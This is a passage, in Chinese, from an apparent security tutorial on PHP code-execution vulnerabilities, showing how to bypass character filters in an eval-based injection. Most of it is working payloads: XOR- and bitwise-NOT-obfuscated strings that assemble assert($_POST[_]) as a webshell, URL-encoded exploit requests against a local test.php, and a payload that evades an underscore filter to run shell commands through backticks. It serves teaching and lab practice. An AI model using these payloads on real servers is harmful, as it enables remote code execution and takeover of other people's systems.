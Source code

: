 ```````
生成的payload为
```php
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
?>
```
url编码后
```
http://localhost:8080/test.php?shell=
%24_%20%3D%20%22!((%25)(%22%5E%22%40%5B%5B%40%5B%5C%5C%22%3B%0A%24__%20%3D%20%22!%2B%2F((%22%5E%22~%7B%60%7B%7C%22%3B%0A%24___%20%3D%20%24%24__%3B%0A%24_(%24___%5B_%5D)%3B
```
![image-20240228170316133](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170316133.png)
另外一种方法

```php
<?php
$a = urlencode(~'assert');
echo $a;
//%9E%8C%8C%9A%8D%8B

$b = urlencode(~'_POST');
echo $b
//%A0%AF%B0%AC%AB
?>
```
拼接后如下
```php
<?php
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"
$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"
$___ = $$__;   //$___=$_POST
$_($___[_]);   //assert($_POST[_])
?>
```
修改后的payload为
```
http://localhost:8080/test.php?shell=$_=~"%9e%8c%8c%9a%8d%8b";$__=~"%a0%af%b0%ac%ab";$___=$$__;$_($___[_]);
```
![image-20240228170322263](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170322263.png)
PHP5中，assert()是一个函数，我们可以用_()这样的形式来执行代码。但在PHP7中，assert()变成了一个和eval()一样的语言结构，不再支持上面那种调用方法。但PHP7.0.12下还能这样调用。下还能这样调用。
![image-20240228170327679](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170327679.png)
PHP5中，是不支持($a)()这种调用方法的，但在PHP7中支持这种调用方法，因此支持这么写
![image-20240228170339530](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170339530.png)

#### 绕过`_`过滤
分析下这个Payload，?>闭合了eval自带的<?标签。接下来使用了短标签。{}包含的PHP代码可以被执行，~"%a0%b8%ba%ab"为"_GET"，通过反引号进行shell命令执行。最后我们只要GET传参%a0即可执行命令。
```
http://localhost:8080/test.php?shell=?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>&%a0=ipconfig
```
![image-20240228170346134](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170346134.png)
#### 绕过`$`过滤
php7下面的上面编码已经解决
下面解决php5下面的问题
```````